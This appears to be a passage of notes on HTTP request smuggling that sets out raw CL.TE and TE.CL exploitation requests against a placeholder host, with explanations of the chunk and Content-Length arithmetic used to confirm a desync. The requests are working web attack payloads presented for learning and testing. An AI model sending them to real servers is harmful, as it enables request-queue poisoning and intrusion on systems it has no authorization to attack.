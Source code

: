 ## Confirmation/Exploitation

Normal request

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### CL.TE

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

`Content-Legth: 49` -> all chars until `Foo:x` (include `\r\n`)

`e` (hex) -> Lenght `q=smuggling&x=`

Then send normal request. This will cause the subsequent "normal" request to look like this:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The server will respond with status code 404, indicating that the attack successful.

### TE.CL

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0\r\n
\r\n
```

